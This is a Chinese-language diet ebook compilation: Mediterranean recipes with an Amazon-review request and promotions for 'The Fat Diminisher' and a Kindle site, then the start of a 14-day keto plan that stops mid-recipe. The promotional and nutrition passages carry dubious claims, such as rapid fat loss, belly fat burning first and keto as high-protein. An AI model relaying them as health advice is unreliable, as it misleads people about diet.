食用大麦可促进新陈代谢并降低胆固醇水平。糙米被推荐，因为它具有抗炎特性且富含纤维。燕麦是早餐的完美选择，富含钙并刺激新陈代谢。藜麦是丰富的蛋白质来源，还具有抗氧化特性。其他推荐的谷物包括：荞麦、布格麦、库斯库斯、小米、麦片和斯佩尔特小麦。只要是“al dente”状态，意大利面也可以食用。

### 海鲜

海鲜常被纳入地中海饮食，且以新鲜食用为佳。这是健康 omega-3 脂肪酸的丰富来源，还提供多种维生素和矿物质。由于这些积极特性，它们可用于对抗慢性疾病。最推荐的海鲜有：三文鱼、虾、鳕鱼、扇贝、蛤蜊、金枪鱼和螃蟹。

### 健康油脂和脂肪

这种饮食中准备的许多沙拉和菜肴都使用健康油脂，提供良好的脂肪来源。如果你想保持其品质不变，应考虑将其储存在凉爽的地方。推荐的油有：特级初榨橄榄油、牛油果油、菜籽油和葡萄籽油。

### 草药和香料

在许多地中海菜肴中，草药和香料被用来代替盐，以增加风味和口感。使用草药和香料的另一个优点是无需为相应菜肴额外添加脂肪。推荐的草药和香料有：大蒜、罗勒、香菜、欧芹、薄荷、孜然、香菜和牛至。

### 豆类

地中海饮食有许多豆类食谱，因为它们提供良好的蛋白质和纤维来源。建议每周至少用豆类替代一次红肉餐。推荐的豆类有：鹰嘴豆、鹰嘴豆泥、白豆、黑豆、 Pinto 豆和扁豆。

### 乳制品

乳制品建议适量食用，因为它们热量较高。建议添加到饮食中的产品有：低脂牛奶、酸奶、各种奶酪和鸡蛋。

### 坚果和种子

不同坚果和种子被纳入地中海菜肴，无论是主菜还是甜点。它们提供良好的蛋白质、纤维和健康脂肪来源。然而，由于热量较高，应适量食用。推荐的坚果和种子有：核桃、杏仁、花生、松子、腰果、葵花籽和亚麻籽。

### 蔬菜

新鲜蔬菜出现在大多数地中海菜肴中，有助于保持体重控制。此外，它们是维生素和矿物质的良好来源。推荐的蔬菜有：番茄（新鲜、罐装和酱）、西兰花、菠菜、甜椒（红、绿）、蘑菇、青豆、茄子、西葫芦、南瓜、橄榄、洋葱和豌豆。

这些是你进行14天地中海饮食冒险所需的基本食物。在接下来的章节中，你会发现为一天三餐推荐的食谱。每道食谱都列出了总时间、份数和配料，以便你做好准备。尽情制作吧，不要犹豫与朋友和家人分享你的烹饪冒险，因为这就是生活的意义所在！


## 第 3 章：地中海早餐食谱

地中海早餐清淡，却美味可口且饱腹。在本章中，你会找到几款早餐建议，适合美好的一天开始。一定要全部尝试，享受它们独特的风味！

### #1 地中海早餐三明治

制作份量：4份

总时间：25 分钟。

配料：
- 全麦三明治薄片（4）
- 橄榄油（4汤匙）
- 新鲜迷迭香（1汤匙）
- 鸡蛋（4）
- 婴儿菠菜叶（2杯）
- 西红柿（1）
- 费塔奶酪（4汤匙）
- 哥什尔盐（1/8茶匙）
- 现磨黑胡椒（适量）

**如何准备：**

首先将烤箱预热至375ºF。将三明治薄片切开并用橄榄油刷匀。然后将它们放入烤箱烤约五分钟，或至呈漂亮的金黄棕色。在平底锅中用橄榄油和新鲜迷迭香以中火煮鸡蛋。将烤好的三明治薄片底部放在盘子上。加入婴儿菠菜叶、西红柿片、一个鸡蛋和费塔奶酪。用盐和胡椒调味。在上面加上三明治薄片的上半部分。上桌享用！

### #2 带烤番茄的蛋白早餐三明治

制作份量：4份

总时间：30 分钟。

配料：
- 黄油（1茶匙）
- 蛋白（1/4杯）
- 盐和胡椒（适量）
- 新鲜香草 – 欧芹、罗勒、迷迭香（1茶匙）
- 全麦奇亚巴塔面包卷（1）
- 青酱（1汤匙）
- 蒙特雷杰克奶酪（1-2片）
- 烤番茄（1/2杯）
  - 葡萄番茄（10盎司）
  - 特级初榨橄榄油（1汤匙）
  - 哥什尔盐和现磨黑胡椒（适量）

**如何准备：**

首先用橄榄油烹饪蛋白。用盐和胡椒调味，然后加入上述提到的新鲜香草。将奇亚巴塔在烤面包机或烤箱中烤至金黄。烤好后在奇亚巴塔上涂抹青酱。在奇亚巴塔下半部分放上蛋白并加入奶酪。加入烤番茄和面包卷的上半部分。烤番茄可以用橄榄油、盐和黑胡椒在烤箱中制作。上桌享用！

### #3 早餐库斯库斯

制作份量：4份

总时间：25 分钟。

配料：
- 低脂牛奶（3杯）
- 肉桂棒（1）
- 全麦库斯库斯（1杯）
- 干杏脯（1/2杯）
- 干醋栗（1/2杯）
- 深色红糖（6茶匙）
- 盐（1/4茶匙）
- 黄油（4汤匙）

**如何准备：**

首先在平底锅中以中火加热牛奶和肉桂棒。不要煮沸牛奶，只加热约三分钟。从火上移开后，加入以下食材：全麦库斯库斯、干杏脯和葡萄干、四茶匙红糖和盐。确保盖上混合物并静置十五分钟。去掉肉桂棒后，将混合物分到餐碗中。用融化的黄油和红糖点缀。上桌享用！

### #4 带费塔奶酪的鸡蛋炒散

制作份量：4份

总时间：35 分钟。

配料：
- 鸡蛋（6）
- 淡酸奶油（1/4杯）
- 哥什尔盐（1/4茶匙）
- 现磨黑胡椒（适量）
- 大蒜粉（1/4茶匙）
- 罗勒（1/2茶匙）
- 牛至（1/2茶匙）
- 费塔奶酪（3/4杯）
- 烤红椒（2汤匙）
- 青葱（2汤匙）
- 面粉玉米饼（4）

**如何准备：**

首先将鸡蛋与酸奶油、哥什尔盐、现磨黑胡椒、大蒜粉、罗勒和牛至混合。将它们倒入平底锅中均匀烹饪。然后加入烤红椒和青葱。完成后，将其放在面粉玉米饼上，加入碎费塔奶酪。卷起玉米饼，上桌享用！

### #5 希腊酸奶帕菲

制作份量：8份

总时间：1小时

配料：
- 未煮熟的 grano（1杯）
- 水（12杯）
- 橙花蜂蜜（1/4杯）
- 哥什尔盐（1/4茶匙）
- 希腊酸奶（4杯）
- 新鲜浆果（2杯）

**如何准备：**

grano 应隔夜浸泡在水中。早上将其沥干并加入平底锅中加水，确保整个混合物煮沸。然后降低火候，让 grano 煮约二十分钟。沥干，加入橙花蜂蜜和盐。使用前让其冷却。取一个巴黎费玻璃杯，先加入一层希腊酸奶。然后加入 grano 和新鲜浆果。重复分层，直到杯子装满。上桌享用！

## 第 4 章：地中海午餐食谱

地中海饮食因其健康的食材而在全球闻名，其中包括一些令人难以置信的午餐食谱创意。好消息是，制作这些食谱不需要太多食材，但最终的味道却很棒。让我们来看看一些最受欢迎的午餐食谱吧！

### #1 虾仁柠檬罗勒意面

制作份量：4份

总时间：15 分钟。

配料：
- 水（3夸脱）
- 意面（8盎司）
- 虾（1磅）
- 新鲜罗勒（1/4杯）
- 刺山柑（3汤匙）
- 特级初榨橄榄油（2汤匙）
- 新鲜柠檬汁（2汤匙）
- 盐（1/2茶匙）
- 婴儿菠菜（2杯）

**如何准备：**

首先将水煮沸。水沸腾后，加入意面煮约八分钟。然后将虾加入锅中，煮约三分钟（此时意面应为 al dente）。沥干并将混合物放入大碗中。加入新鲜罗勒、沥干的刺山柑、特级初榨橄榄油和柠檬汁。用婴儿菠菜作为盛放底座。将意面混合物放在上面，上桌享用！

### #2 鸡肉苏芙拉基

制作份量：4份

总时间：15 分钟。

配料：
- 费塔奶酪（1/2杯）
- 希腊酸奶（1/2杯）
- 新鲜莳萝（1汤匙）
- 特级初榨橄榄油（1汤匙）
- 蒜末（1 ¼茶匙）
- 干牛至（1/2茶匙）
- 鸡胸肉（2杯）
- 皮塔饼（4）
- 冰山生菜（1杯）
- 黄瓜（1/2杯）
- 李子番茄（1/2杯）
- 红洋葱（1/4杯）

**如何准备：**

首先将费塔奶酪捏碎并与以下食材混合：希腊酸奶、莳萝、特级初榨橄榄油和蒜末。确保食材混合均匀。然后取一平底锅，用橄榄油炒蒜和牛至。加入切片鸡胸肉再煮两分钟。将皮塔饼切成两半。将煮好的鸡胸肉放在皮塔饼上，加入酸奶混合物，然后加入碎生菜、黄瓜和西红柿。上桌享用！

### #3 地中海金枪鱼沙拉

制作份量：5份

总时间：15 分钟。

配料：
- 蔬菜汁（1/2杯）
- 辣根芥末（4汤匙）
- 金枪鱼（12盎司）
- 烤红椒（2/3杯）
- 切碎芹菜（1/2杯）
- 切碎欧芹（4汤匙）
- 去核卡拉马塔橄榄（2汤匙）

**如何准备：**

首先准备沙拉酱汁。将蔬菜汁与辣根芥末混合，备用。将金枪鱼沥干并放入碗中。然后加入切碎的烤红椒、芹菜、欧芹和去核卡拉马塔橄榄。充分拌匀。将酱汁加入沙拉中再混合一次，直至所有食材均匀裹上。上桌前冷藏。享用！

### #4 填馅西红柿

制作份量：4份

总时间：25 分钟。

配料：
- 西红柿（2）
- 蒜香烤面包丁（1/2杯）
- 碎山羊奶酪（1/4杯）
- 去核卡拉马塔橄榄（1/4杯）
- 油醋汁（2汤匙）
- 新鲜百里香或罗勒（2汤匙）

**如何准备：**

首先预热烤架。然后取西红柿横向切成两半。取出西红柿果肉，保留外壳。确保将西红柿果肉切碎并备用。取一碗，将以下食材混合：蒜香烤面包丁、碎山羊奶酪、去核卡拉马塔橄榄。将西红柿果肉加入混合物中，然后加入油醋汁和新鲜百里香/罗勒。将西红柿烤约五分钟。上桌享用！

### #5 地中海午餐碗

制作份量：2份

总时间：25 分钟。

配料：
- 鸡胸肉（8盎司）
- 新鲜迷迭香枝（2）
- 新鲜牛至枝（2）
- 刺山柑（1汤匙）
- 柠檬（1）
- 意式小圆面（1/2杯）
- 新鲜菠菜（3杯）
- 烤红椒（1-2）
- 腌制洋蓟心（2-3）
- 混合橄榄（5）
- 橄榄油（1汤匙）
- 盐和胡椒（适量）

**如何准备：**

首先用迷迭香、牛至和柠檬汁腌制鸡胸肉。以中火将鸡胸肉两面各烤约十分钟，直至完全熟透。从火上移开，静置十分钟。根据包装上的说明准备意式小圆面。完成后，沥干意式小圆面并淋上橄榄油。然后用盐和胡椒调味。取一碗，加入以下食材：新鲜菠菜、意式小圆面、切片鸡胸肉、烤红椒、洋蓟心和混合橄榄。用橄榄油、新鲜柠檬汁以及烤红椒、洋蓟心和混合橄榄的天然汁液调制酱汁。


## 第 5 章：地中海晚餐食谱

如果你在地中海地区旅行，你会发现晚餐通常比较清淡，而且常用风味丰富的食材制作。本章收录了多道地中海晚餐食谱，让你也能在家尝试自己的烹饪体验。

### #1 地中海鸡肉意面

份量：4人份

总用时：30分钟

配料：螺旋意面（2½杯）、油（1汤匙）、鸡肉香肠（3根）、冷冻甜豌豆（1¼杯）、罗勒青酱（3/4杯）、意大利混合奶酪丝（1杯）、番茄（1个）

制作方法：

首先按照包装上的说明煮意面。煮熟后，沥干并用冷水冲洗。将鸡肉香肠切成薄片并煎熟，直到呈现漂亮的金棕色。加入意面、冷冻甜豌豆和青酱。再煮五分钟，期间不时搅拌。在顶部加入意大利混合奶酪丝和切碎的番茄。再煮三分钟，使奶酪完美融化。上桌享用！

### #2 分层希腊沙拉

份量：8人份

总用时：25分钟

配料：调料 – 冷冻菠菜（9盎司）、希腊酸奶（5.3盎司）、脱脂牛奶（2/3杯）、蛋黄酱（1/4杯）、柠檬胡椒（1茶匙）、干莳萝（3/4茶匙）；沙拉 – 沙拉绿叶菜（8杯）、鸡胸肉（2杯）、圣女果（1品脱）、黄瓜（1根）、红洋葱（1/2个）、碎菲达奶酪（3/4杯）、去核卡拉马塔橄榄（1/4杯）

制作方法：

首先按照包装上的说明煮菠菜。用冷水冲洗并充分沥干，然后与调料的其他配料（希腊酸奶、脱脂牛奶、蛋黄酱、柠檬胡椒、干莳萝）一起放入食品加工机。搅打至顺滑后备用。取一个大沙拉碗，铺上第一层沙拉绿叶菜。然后铺一层鸡肉丁，再放上番茄和黄瓜。重复分层，直到所有配料用完，最后用洋葱、黄瓜和剩余的沙拉绿叶菜收尾。将调料浇在沙拉上。然后加入碎菲达奶酪、卡拉马塔橄榄和剩余的洋葱。上桌享用！

### #3 薄荷黄瓜酱火鸡汉堡

份量：5人份

总用时：50分钟（准备20分钟，烹饪30分钟）

配料：黄瓜酱 – 原味酸奶（1/2杯）、黄瓜（1/2杯）、新鲜薄荷（2茶匙）、柠檬汁（1茶匙）；汉堡 – 冷冻切碎菠菜（9盎司）、火鸡肉末（1¼磅）、原味酸奶（1/4杯）、干牛至（1茶匙）、蒜盐（1/2茶匙）、胡椒（1/4茶匙）、番茄（1个）、皮塔饼（5个）

制作方法：

先混合黄瓜酱的配料。做好后冷藏。按照包装上的说明煮菠菜。煮好后挤去多余水分。另取一碗，将菠菜与火鸡肉末、酸奶、牛至、蒜盐和胡椒混合。然后将混合物做成汉堡肉饼。炙烤汉堡肉饼，直到呈现漂亮的金棕色。将皮塔饼切成两半，放上番茄片，再加入汉堡肉饼。加上黄瓜酱，上桌享用！

### #4 烤红薯配猪里脊

份量：3人份

总用时：50分钟（准备15分钟，烹饪35分钟）

配料：蔬菜 – 橄榄油（1汤匙）、意大利调味料（1茶匙）、盐（1/4茶匙）、蒜瓣（1瓣）、红薯（2个）、黄洋葱（1个）；猪肉 – 猪里脊（1磅）、橄榄油（1/2汤匙）、意大利调味料（1茶匙）、调味盐（1/4茶匙）、帕玛森奶酪（1汤匙）、新鲜欧芹（1汤匙）

制作方法：

先将烤箱预热至425°F。然后，将一汤匙油与意大利调味料、盐和大蒜混合。将红薯切块，洋葱切碎。将红薯和洋葱与油和香料混合。放入烤箱烤约十分钟。在猪里脊上刷半汤匙油。取一个小碗，将意大利调味料与调味盐和帕玛森奶酪混合。将混合物裹在猪里脊上，放入烤箱烤二十分钟。烤好后，切片并与红薯和洋葱一起上桌。用欧芹点缀，上桌享用！

### #5 菠菜帕玛森派

份量：6人份

总用时：58分钟（准备15分钟，烹饪43分钟）

配料：黄油（1汤匙）、青葱（4根）、蒜瓣（2瓣）、冷冻切碎菠菜（10盎司）、茅屋奶酪（1/2杯）、烘焙混合粉（1/2杯）、牛奶（1杯）、柠檬汁（1茶匙）、胡椒（1/4茶匙）、鸡蛋（3个）、帕玛森奶酪（3汤匙）、肉豆蔻粉（1/4茶匙）

制作方法：

先将烤箱预热至350°F。将青葱和大蒜切碎，用黄油在中火下煎锅炒香。然后加入菠菜，将混合物铺在派盘上。加入茅屋奶酪。在另一个碗中，加入以下配料：烘焙混合粉、牛奶、柠檬汁、胡椒和鸡蛋。将混合物倒入派盘。然后加入更多帕玛森奶酪和肉豆蔻粉。烘烤约三十五分钟。上桌前放凉。用青葱片点缀，上桌享用！

## 第 6 章：地中海甜点食谱

尽管地中海地区的人们经常以水果作为甜点，但这并不意味着他们不会偶尔制作美味的甜点食谱。在本章中，你将找到一些用健康食材制作的建议。

### #1 杏仁曲奇

可做：80块

总用时：45分钟

配料：细砂糖（1杯）、黄油（1/2千克）、去皮杏仁（1千克）、面粉（700克）、蛋黄（1个）、干邑（1/2杯）、小苏打（1茶匙）；你还需要少许黄油用于烤盘，以及一些细砂糖撒在曲奇上

制作方法：

先将烤箱预热至180°C。然后，将融化的黄油与细砂糖、蛋黄、面粉、小苏打、去皮杏仁和干邑混合。面糊准备好后，搓成小球，并在中心按出凹痕。给烤盘抹上黄油，烘烤曲奇，直到它们呈现漂亮的金棕色。烤好后，在曲奇上撒细砂糖。放凉后再撒第二层细砂糖。上桌享用！

### #2 南瓜希腊酸奶帕菲

份量：6人份

总用时：10分钟

配料：南瓜泥（15盎司）、低脂希腊酸奶（1¼杯）、马斯卡彭奶酪（3-4汤匙）、香草精（1茶匙）、糖蜜（2汤匙）、红糖（2½汤匙）、肉桂粉（2茶匙）、肉豆蔻（1撮）、巧克力豆（点缀）、切碎的榛子/核桃（点缀）

制作方法：

先在一个大碗中，将南瓜泥与以下配料混合：希腊酸奶、马斯卡彭奶酪、香草精、糖蜜、红糖、肉桂粉和肉豆蔻。充分搅拌均匀，直到质地顺滑。将混合物冷藏片刻。然后，将混合物分装入各个帕菲杯中。在顶部淋上糖蜜，加上巧克力豆和切碎的榛子或核桃。上桌享用！

### #3 樱桃挞

份量：6-8人份

总用时：1小时20分钟

配料：中筋面粉（8盎司）、盐（1撮）、糖粉（2茶匙）、玉米粉（1盎司）、猪油（4盎司）、人造黄油（2盎司）、蛋黄（1个）、冷水（2汤匙）

制作方法：

先将烤箱预热至400°F。取一个碗，将中筋面粉与盐、玉米粉和糖粉混合。将猪油与人造黄油混合，加入上述混合物中。然后，向混合物中加入蛋黄和冷水，以揉成面团。将面团擀开，铺入事先抹过油的派盘中。烘烤一刻钟，然后从烤箱中取出。将樱桃摆入派壳中。将糖与鸡蛋、杏仁和杏仁香精混合，铺在樱桃上。再烘烤一小时，或烤至呈金黄色。上桌享用！


### #4 橙香水果果酱

制作份量：6 人份

总时间：45 分钟。（+6 小时用于冷却）

配料：新鲜迷迭香枝（1枝），橙皮（适量），整粒黑胡椒（1 茶匙），橙汁（3 杯），干杏脯（2 杯），干酸樱桃（3/4 杯），金色葡萄干（3/4 杯），干白葡萄酒（3/4 杯），糖（3/4 杯）

### 如何准备：

首先借助湿润的奶酪布整理香料束。将迷迭香枝、橙皮和胡椒粒收集起来做成此束。将一个大平底锅取出并加入剩余的配料。等待整个混合物沸腾。然后，降低火力并让其小火慢煮约三十五分钟。食用前让其冷却。取出香料束，上桌享用！

### #5 南瓜派

制作份量：6 人份

总时间：1 小时（准备 30 分钟，烹饪 30 分钟）

配料：南瓜泥（15 盎司），白糖（3/4 杯），葡萄干（1 杯），细粗麦粉（1 杯），肉桂粉（1/2 茶匙），丁香粉（1/4 茶匙），肉豆蔻粉（1/8），冷冻酥皮（2 张），鸡蛋（1 个）

### 如何准备：

首先将烤箱预热至 350°F。然后，抹油于烤盘。将南瓜泥放入平底锅中加热。一旦变得浓稠，你可以加入以下配料：白糖、葡萄干、粗麦粉、肉桂粉、丁香粉和肉豆蔻。将配料充分混合后离火。取一张酥皮放在已抹油的烤盘上。然后铺上南瓜混合物，使其覆盖整个表面。将另一张酥皮放在混合物上方。然后，打一个鸡蛋并刷在表面上，这样在烤箱中时会保证呈现漂亮的金黄色。烘烤约三十到四十分钟。食用前让其冷却。享用！

## 结语

再次感谢您下载本书！

我希望本书能帮助您减肥并恢复身体平衡。

下一步是保持您所做出的健康选择，并重新在生活中找到乐趣。

最后，如果您喜欢这本书，我想请您帮个忙，您能否在亚马逊上为本书留下评论？将不胜感激！

[点击此处在亚马逊上为本书留下评论！](#)

感谢您，祝好运！

## 赠品：获取我提供的更多免费视频和书籍！

感谢您阅读我的书！我希望您从中获得了极大的价值。为了感谢您，我想赠送您更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接并在我的网站上输入您的电子邮件地址即可！

如果您认真考虑改变饮食和健康，您将获得的一切都将对您有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

[点击此处获取所有这些信息！](#)

嘿，我希望您喜欢我的书。为了提供更多价值，我想给您一些免费内容，以及我最近尝试的一种饮食的信息，这种饮食帮助我减掉了顽固的 unwanted 脂肪。

这个项目给了我减掉顽固脂肪并感觉年轻十岁的策略！

这个项目叫做 The Fat Diminisher。这种饮食在帮助人们实现减肥目标方面取得了巨大成功。这个项目不仅帮助您减掉 unwanted 脂肪，还教您如何永久保持不反弹！

在短时间内减肥一直被认为几乎是不可能完成的任务。多年以来，医生和营养师一直告诉公众，看到减肥进展或塑造完美身材需要数月甚至数年的努力。但这完全不真实。

人体具有高度适应性，能够在极短的时间内发生变化。想想看。如果人们可以通过几周的不健康饮食迅速增加大量脂肪，那么他们是否也能通过几周的健康饮食迅速减掉很多体重呢？当然可以。

但是要快速减肥需要吃什么呢？从低碳水化合物到低脂肪、无糖、高蛋白，甚至‘穴居人’饮食——选择如此之多，以至于普通人很难弄清楚应该使用哪种饮食来快速减肥。其中一些饮食甚至对应该吃什么和不应该吃什么提供了相互矛盾的信息。好吧，这一切即将改变。

*现在观看视频！*

如果您还没有，请务必查看我的新网站，[KindleBookSpot.com](KindleBookSpot.com)。这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建该网站是因为我想给你们一个更简单的方式，在一个地方以折扣价找到最热门的 Kindle 书籍。以下是我的网站所拥有的一些详细信息：

- 最畅销免费 Kindle 书籍的列表
- 折扣小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广您自己的书籍

这个网站不仅仅是为读者准备的，也是新兴作者在新书成为畅销书之前推广新书的地方。因此，如果您想推广自己的书籍，请查看我的网站，[KindleBookSpot.com](KindleBookSpot.com)。

我希望这个网站对您有用，我希望在那里见到您！

[订阅 KindleBookSpot 的不断壮大的社区，以便在最好的书籍打折和免费时收到通知。](KindleBookSpot.com)

# 14 天生酮饮食计划

## 生酮饮食初学者食谱书

我最喜欢的饮食的额外信息

在 KindleBookSpot.com 还有更多免费和特价书籍

## 目录

引言

第 1 章：生酮饮食的好处

第 2 章：开始生酮饮食计划

第 3 章：生酮饮食计划（14 天指南）

第 4 章：生酮早餐食谱

第 5 章：午餐食谱

第 6 章：晚餐食谱

第 7 章：生酮饮食计划零食

第 8 章：提示和技巧

结语

## 引言

我要感谢您并祝贺您下载了本书，“ 14 天生酮饮食计划：生酮饮食初学者食谱书 ”。本书将教您如何享受这种改变生活且极受欢迎的饮食，它帮助世界各地的人们减掉了令人印象深刻的体重。

本书包含经过验证的步骤和策略，教你如何

- 从零开始烹饪一些美味的餐点
- 弄清楚什么可以吃，什么不可以吃
- 在吃自己喜欢的食物的同时减肥
- 吃各种其他饮食告诉你应避免的食物
- 比平时拥有更多能量
- 以及更多！

如果你想减肥，就不必限制美味食物的摄入。生酮饮食是一种确保体重保持不反弹的饮食，同时让你享受各种你通常认为不能吃的餐点。

让本书引导您完成 14 天生酮饮食计划，并实现可持续的减肥，而不会让您感到饥饿。看着体重下降并保持下去。

再次感谢您下载本书，我希望您喜欢它！

## 开始之前... 赠品：获取我提供的更多免费视频和书籍！

感谢您阅读我的书！我希望您从中获得了极大的价值。为了感谢您，我想赠送您更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接并在我的网站上输入您的电子邮件地址即可！

如果您认真考虑改变饮食和健康，您将获得的一切都将对您有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

## 第 1 章：生酮饮食的好处

生酮饮食越来越受欢迎，这要归功于参与者取得的成果。因为它限制了碳水化合物的摄入量，体重会下降，身体最终消耗的能量比摄入的更多。

目前有很多饮食是不可持续的，坦白说是不健康的。这些饮食通常严重限制您摄入的食物种类，这可能导致健康问题。

当您开始生酮饮食时，您会限制碳水化合物的摄入，但会增加蛋白质的摄入量。这很棒，因为这意味着您的身体会开始燃烧脂肪，而且您不会感到饥饿。

### 容易坚持：

生酮饮食的美妙之处在于它非常容易坚持。您无疑会享受大量美味餐点的同时减肥。似乎很奇怪，您可以在大量食用培根、奶酪和其他食物的同时看着体重下降。事实是这种饮食有效，而且效果很好，

### 如何在生酮饮食中减脂：

当您开始生酮之旅时，您会食用不含太多碳水化合物的食物。当您摄入碳水化合物时，您的身体会先燃烧它们产生的能量，然后才会燃烧您携带的脂肪。

由于您不会摄入太多碳水化合物，您的身体会首先燃烧脂肪，这意味着您会开始减肥。您多余的腹部脂肪会被首先燃烧，这可能会让您对自己的外貌感到更加自信

看吧。

你也会开始感到更有精力，而且有可能让生活变得更好。

## 第 2 章：开始生酮饮食计划

根据我自己的经验，我知道开始任何饮食都不像你希望的那么容易，但下面有一些提示，可以帮助事情稍微容易一些。

请不要以为生酮饮食会轻而易举就开始尝试，它可能比你想象的稍微艰难一些，但别担心，你会成功的。

### 犯错

开始一种新饮食并不总是容易，而生酮饮食可能是较难适应的一种。这是因为你需要远离碳水化合物和任何种类的糖。你偶尔可能会犯错，摄入比你意识到的更多的糖，但尽量不要因此太过沮丧。你越多地参与这个饮食计划，就越会习惯吃那些碳水化合物含量极低甚至完全不含碳水化合物的食物。

### 了解可以从哪里采购食材

为了烹饪本书中的食谱，你需要采购的许多食材都可以在大多数商店买到。这就是这种饮食的美妙之处，它不会要求你吃任何难以获得的东西。

我知道有些食谱确实要求你使用牛奶替代品（例如豆奶或杏仁奶，偶尔还有椰奶），但它们通常在许多商店都能买到。如果你当地的杂货店不卖牛奶替代品，那么你可能想去保健食品店看看，因为它们很可能有售。如果仍然找不到，就上网看看，因为有很多网站以合理的价格出售牛奶替代品。

### 和朋友一起开始计划

如果你愿意，可以和朋友一起开始这个计划。因为这样比独自进行更容易。和朋友一起开始计划会轻松得多，因为这样你可以获得食谱灵感，也能提升自己的动力。

话虽如此，如果你愿意，也不必非得和朋友一起开始，你也可以选择独自进行。如果你选择这样做，就应该尽力保持动力，尤其是在发现事情进展艰难的时候。

### 关键食物/食材

#### 肉类和奶酪

在整个生酮饮食计划中，你会被要求吃大量肉类和奶酪。这是因为肉类是很好的蛋白质来源，但你需要远离加工肉类，因为它们可能含有隐藏的碳水化合物。

好消息是，肉类每天都可以享用，所以请随意在饮食中加入更多肉类，并好好享受吧！

#### 鱼类

鱼也是极好的蛋白质来源，还含有一些非常健康的油脂。我必须强调，你需要远离裹面糊和裹面包糠的鱼，因为这些会含有大量碳水。尽量不要每周吃鱼超过三次，因为已知鱼含有大量汞。

#### 乳制品

我知道完全避开乳制品很难，但有一些不错且非常美味的替代品。我知道这些替代品经过一定程度的加工，但它们能确保你获得所需的钙，以及其他非常有益的营养素。

#### 水果和蔬菜

许多人以为在生酮饮食中不能吃水果和蔬菜。这完全是误解，因为你需要摄入这些食物来获取能量。水果和蔬菜含有糖，而既然你不打算摄入碳水，就需要从其他地方获取能量。一定要只吃低糖的水果和蔬菜，以免最终体重增加。

#### 调味汁

说实话，我们都喜欢时不时地给饭菜加些调味汁。虽然这在生酮饮食中完全可以接受，但你应该确保不要摄入过多碳水。好消息是，这种饮食允许使用油基调味汁和蛋黄酱，所以尽情吃吧！

## 第 3 章：生酮饮食计划（14 天指南）

下面你将看到一份14天指南，它应该能帮助你决定想吃什么。请注意，你完全可以制定自己的饮食计划。下面看到的计划只是一个指南，你可能会发现吃其他食物更符合你的口味。

### 第一天
- 早餐：奶油奶酪煎饼
- 零食：夏威夷果
- 午餐：鸡肉培根沙拉
- 零食：芝士脆片
- 晚餐：烤三文鱼

### 第二天
- 早餐：草莓肉桂麦片
- 零食：三文鱼配奶油奶酪
- 午餐：低碳水肉糕
- 零食：剩肉
- 晚餐：西班牙香肠花椰菜汤

### 第三天
- 早餐：培根面包
- 零食：芝士脆片
- 午餐：鸡汤
- 零食：猪皮配青酱
- 晚餐：芝士洋葱乳蛋饼

### 第四天
- 早餐：柠檬蓝莓松饼
- 零食：猪皮配青酱
- 午餐：香肠披萨
- 零食：夏威夷果
- 晚餐：瑞典肉丸

### 第五天
- 早餐：菠菜煎蛋卷
- 零食：剩肉
- 午餐：想吃什么就吃什么
- 零食：夏威夷果
- 晚餐：瓜达拉哈拉鸡肉

### 第六天
- 早餐：培根、鸡蛋和西兰花
- 零食：夏威夷果
- 午餐：巧克力蛋白奶昔
- 零食：芝士脆片
- 晚餐：剩下的瑞典肉丸

### 第七天
- 早餐：火腿、火鸡和芝士煎饼
- 零食：芝士脆片
- 午餐：昨晚的剩菜
- 零食：猪皮配青酱
- 晚餐：芝士洋葱乳蛋饼

### 第八天
- 早餐：奶油奶酪煎饼
- 零食：夏威夷果
- 午餐：鸡肉培根沙拉
- 零食：剩肉
- 晚餐：烤三文鱼

### 第九天
- 早餐：草莓肉桂麦片
- 零食：芝士脆片
- 午餐：香肠披萨
- 零食：三文鱼配奶油奶酪
- 晚餐：巧克力蛋白奶昔

### 第十天
- 早餐：培根面包
- 零食：剩肉
- 午餐：鸡汤
- 零食：夏威夷果
- 晚餐：瑞典肉丸

### 第十一天
- 早餐：柠檬蓝莓松饼
- 零食：芝士脆片
- 午餐：低碳水肉糕
- 零食：猪皮配青酱
- 晚餐：西班牙香肠花椰菜汤

### 第十二天
- 早餐：菠菜煎蛋卷
- 零食：三文鱼配奶油奶酪
- 午餐：想吃什么就吃什么
- 零食：夏威夷果
- 晚餐：瓜达拉哈拉鸡肉

### 第十三天
- 早餐：培根、鸡蛋和西兰花
- 零食：猪皮配青酱
- 午餐：巧克力蛋白奶昔
- 零食：芝士脆片
- 晚餐：剩下的瑞典肉丸

### 第十四天
- 早餐：火腿、火鸡和芝士煎饼
- 零食：三文鱼配奶油奶酪
- 午餐：昨晚的剩菜
- 零食：剩肉
- 晚餐：芝士洋葱乳蛋饼

如你所见，生酮饮食是一种丰富多样的饮食，包含许多美味的食物。如果你想品尝我建议的一些餐食，请参阅接下来的几章，你会在那里找到食谱。

如果你愿意，不要害怕调整食谱，但最重要的是，好好享用它们。

## 第 4 章：生酮早餐食谱

每天早晨都享用一顿美味又营养的早餐。如果你早上时间有点紧，前一晚就把早餐做好会有很大帮助。

### 奶油奶酪煎饼

份量：2

食材：
- 2个鸡蛋
- 1茶匙甜菊糖
- 2-3汤匙奶油
- 半茶匙肉桂粉
- 1汤匙椰子粉
- 一小片黄油
- 枫糖浆

做法：

将除黄油和枫糖浆以外的所有食材放入碗中，搅拌至混合均匀且顺滑。加热平底锅或煎锅，加入黄油，用中高火融化。每面煎至金黄棕色。

离火，搭配枫糖浆食用。

### 草莓肉桂麦片

份量：2碗

食材：
- 530克椰片
- 2颗草莓
- 200毫升杏仁奶或豆奶
- 1茶匙肉桂粉

做法：

将烤箱预热至350华氏度，并在烤盘上铺好烘焙纸。放入椰片，烤约2分半钟，然后把椰片稍微翻动一下，再烤2分半钟，或直到椰子开始微微变棕。

将椰子从烤箱中取出，撒上肉桂粉。如果你想给椰子加糖或糖替代品，现在是最好的时机。

将椰片舀入2个碗中，加入草莓和牛奶，即可食用。


## 培根面包

份量：3

### 配料：
- 1包培根
- 3个鸡蛋
- 100克奶酪，磨碎

### 做法：
